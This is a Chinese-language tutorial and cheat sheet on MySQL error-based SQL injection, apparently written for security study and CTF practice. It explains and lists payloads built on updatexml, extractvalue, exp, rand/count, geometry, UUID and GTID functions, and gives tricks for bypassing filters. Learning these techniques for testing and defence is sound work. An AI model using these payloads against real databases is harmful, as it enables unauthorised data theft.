 # MySQL 报错注入总结



## 0x00 前言

报错注入适用于页面无回显位置，但是仍然返回报错信息的情况。

## 0x01 报错注入定义

报错注入是指通过特殊函数错误使用并使其输出错误结果来获取信息。简单地说，就是在可以进行 sql 注入的位置，调用特殊的函数，利用函数报错使其输出错误结果来获取数据库的相关信息。（数据库的信息包含在错误结果中）

- 报错注入的前提：服务器开启报错信息返回，也就是发生错误时返回报错信息。

常见的利用函数有：`exp()、floor()+rand()、updatexml()、extractvalue()`等

比如：

```mysql
select * from users where username=$username (and | or) updatexml(1,concat(0x7e,(select user()),0x7e),1)
```

因为 updatexml 函数的第二个参数需要满足 xpath 格式，我们在其前后添加字符 `~` ，使其不满足 xpath 格式，进行报错并输出。将上述 payload 的 `(select user())`当做联合查询法的注入位置，接下来的操作与联合查询法一样。

注意：

- 报错函数通常有其最长报错输出的限制，面对这种情况，可以进行分割输出。
- 特殊函数的特殊参数仅运行一个字段、一行数据的返回，使用 group_concat 等函数聚合数据即可。

## 0x02 报错注入原理分类

mysql 的报错注入主要是利用 mysql 数据库的一些逻辑漏洞，主要可以分为以下几类：

- BigInt 等数据类型溢出
- 函数参数格式错误
- 主键/字段重复



## 0x03 报错注入原理详解

- 前边说到，报错注入是通过特殊函数错误使用并使其输出错误结果来获取信息的，那么我们都有哪些特殊函数以及如何使用它们呢？

### 3.1 exp()

函数语法：`exp(int x)`

适用版本：5.5.5~5.5.49

该函数会返回 e 的 x 次方结果，如下图：

![image-20230516113748170](picture/image-20230516113748170.png)

使用该函数时什么时候会报错呢？我们知道，次方到后边每增加 1，其结果都将跨度极大，而 mysql 能记录的 double 数值范围有限，一旦结果超过范围，那么该函数就会报错。如下图：

![image-20230516114000002](picture/image-20230516114000002.png)

我们利用该函数进行报错注入的 payload 为：

```sql
exp(~(select * from ( select user() ) a ))
```

其中，~ 符号为取反运算符。我们通常将字符串经过处理后变成大整数，再放到 exp 函数内，得到的结果就可以超过 mysql 的 double 数值范围，从而报错输出。~~**至于为什么需要用两层子查询，这点我暂时还没有弄明白。**~~

> Every derived table must have its own alias
>
> 之所以要给子查询的表设别名 a，是因为在 mysql 中每个派生的表都必须要有别名。
>
> 所以 select * from (select user()) 才会报错，因为子查询的表没有设置别名。具体详情参看[此处](https://www.jianshu.com/p/c52180dd259a)
>
> 为何用子查询？一般在[子查询](https://so.csdn.net/so/search?q=子查询&spm=1001.2101.3001.7020)中，程序先运行在嵌套在最内层的语句，再运行外层。
>
> 带入在这里就是先执行 select user() 生成一个别名为 a 的表然后再用 select 查询这个表 a ，然后 exp 函数报错，mysql 告诉我们报错信息从而带出用户名。

除了`exp()`之外，还有类似`pow()`之类的相似函数同样是可利用的，他们的原理相同。

### 3.2 updatexml()

函数语法：`updatexml(XML_document, XPath_string, new_value);`

适用版本：5.1.5+

与 exp() 不同，updatexml 是由于参数的格式不正确而产生的错误，同样也会返回错误参数的信息。

payload:

```sql
updatexml(1,concat(0x7e,(select user()),0x7e),1)
```

我们在以上 payload 的前后添加 `~`(0x7e) 使其不符合 xpath 格式从而报错。

### 3.3 extractvalue()

函数语法：`EXTRACTVALUE (XML_document, XPath_string);`

适用版本：5.1.5+

- 利用原理与 updatexml 函数相同

payload：

```sql
and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

### 3.4 rand()+count()

这个原理比较复杂，不过有篇文章写的很好，建议参看。

>关于以上三个函数组合形成报错注入的原理分析，强烈建议看这篇文章：https://wooyun.js.org/drops/Mysql%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E5%88%86%E6%9E%90(count()%E3%80%81rand()%E3%80%81group%20by).html
>
>关于相关函数函数介绍在这里：[count](https://www.yiibai.com/mysql/count.html)



payload 用法：

```sql
union select count(*) , 2, concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a
```

#### 几何函数报错注入

- GeometryCollection：`id=1 AND GeometryCollection((select * from (select* from(select user())a)b))`
- polygon()：`id=1 AND polygon((select * from(select * from(select user())a)b))`
- multipoint()：`id=1 AND multipoint((select * from(select * from(select user())a)b))`
- multilinestring()：`id=1 AND multilinestring((select * from(select * from(select user())a)b))`
- linestring()：`id=1 AND LINESTRING((select * from(select * from(select user())a)b))`
- multipolygon() ：`id=1 AND multipolygon((select * from(select * from(select user())a)b)`

#### uuid 相关函数

适用版本：8.0.x

参数格式不正确。

```sql
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```

#### GTID 相关函数

参数格式不正确。

```sql
mysql>select gtid_subset(user(),1);
mysql>select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
mysql>select gtid_subtract((select * from(select user())a),1);
```

#### join using() 注列名

通过系统关键词join可建立两个表之间的内连接。

通过对想要查询列名的表与其自身建立内连接，会由于冗余的原因(相同列名存在)，而发生错误。

并且报错信息会存在重复的列名，可以使用 **USING** 表达式声明内连接（INNER JOIN）条件来避免报错。

```sql
mysql>select * from(select * from users a join (select * from users)b)c;
mysql>select * from(select * from users a join (select * from users)b using(username))c;
mysql>select * from(select * from users a join (select * from users)b using(username,password))c;
```



## 绕过过滤

### 绕过空格过滤

一般代替空格的字符串有

- %09
- %0a
- %0b
- %0d
- %0c

### 绕过回显关键字过滤

有时候题目可能会在回显的时候限制不能出现 flag 等字符，这种情况下我们一般可以采用编码绕过，常见的编码函数有

- to_base64
- hex

如果题目还限制了不能出现数字，那我们只能采用盲注了



## 参考链接

[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-18)
